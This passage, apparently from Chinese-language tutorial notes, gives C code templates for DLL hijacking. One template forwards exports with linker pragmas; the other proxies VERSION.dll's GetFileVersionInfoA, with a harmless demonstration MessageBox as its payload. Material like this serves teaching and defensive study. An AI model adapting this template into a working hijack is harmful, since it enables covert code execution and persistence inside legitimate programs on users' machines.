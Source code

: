 * 直接转发函数:

```text
#pragma comment(linker, "/EXPORT:MessageBoxA=OLD_DLL.MessageBoxA")
```

* 动态调用:

```text
//导出
#pragma comment(linker, "/EXPORT:GetFileVersionInfoA=_DG_GetFileVersionInfoA,@1")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
					 )
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	{
		// 绝对路径加载VERSION.dll
		LoadLibrary("C:\\Windows\\System32\\VERSION.dll");

		MessageBox(NULL, "调用函数方法", "From DLL Hijack", MB_OK | MB_ICONWARNING);
		break;
	}
	case DLL_THREAD_ATTACH:
	{
		break;
	}
	case DLL_THREAD_DETACH:
	{
		// 卸载VERSION.dll
		HMODULE hDll = GetModuleHandle("C:\\Windows\\System32\\VERSION.dll");
		if (hDll)
		{
			FreeLibrary(hDll);
		}
		break;
	}
	case DLL_PROCESS_DETACH:
	{
		break;
	}
		break;
	}
	return TRUE;
}
PVOID GetFunctionAddress(char* pszFunctionName)
{
	PVOID pAddr = NULL;
	HMODULE hDll = NULL;
	char szDllPath[MAX_PATH] = "C:\\Windows\\System32\\VERSION.dll";

	hDll = LoadLibrary(szDllPath);
	if (NULL == hDll)
	{
		return NULL;
	}
	pAddr = GetProcAddress(hDll, pszFunctionName);
	FreeLibrary(hDll);

	return pAddr;
}
```